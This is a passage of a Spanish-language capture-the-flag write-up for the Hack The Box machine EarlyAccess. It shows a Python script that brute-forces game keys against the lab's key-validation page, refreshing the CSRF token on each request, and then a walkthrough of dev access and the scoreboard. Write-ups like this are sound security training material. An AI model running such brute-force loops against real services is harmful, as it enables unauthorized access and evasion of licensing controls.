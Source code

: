 ```python
p1.status("Intentando con la key %s [%d/60]" % (key, counter))

r = s.get(url_key)
token = re.findall(f'name="_token" value = "(.*?)"', r.text)[0]

post_data = {
'_token': token,
'key': key
}
r = s.post(url_try_key, data=post_data)

if "Game-key is invalid!" not in r.text:
p1.success("KEY %s" % key)
sys.exit(0)

time.sleep(2)
counter += 1

if __name__ == '__main__':
keys = generateKeys()
do_post(keys)
```

Importamos unas librerías, generamos nuestro <i>g3</i> y lo añadimos a una lista, nuestras posibles keys válidas
luego hacemos una petición a <i>/login</i> con nuestra cuenta creada y arrastramos posteriormente nuestra sesión
para hacer peticiones <i>post</i> por cada key y actualizando el token de <i>/key</i>.
<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1686605663/key_page_lkvkdi.webp'
width={506}
height={345}
/>

### Dev Access

Refrescamos la página e ingresamos a <i>game.earlyaccess.htb</i>.
<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1686605692/game_version_m1kczl.webp'
width={700}
height={662}
/>

Después de jugar al juego de la serpiente, nos vamos a la pestaña de scoreboard
y vemos el tablero.
<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1686605710/scoreboard_top_ten_pulkbo.webp'
width={592}
height={296}
/>
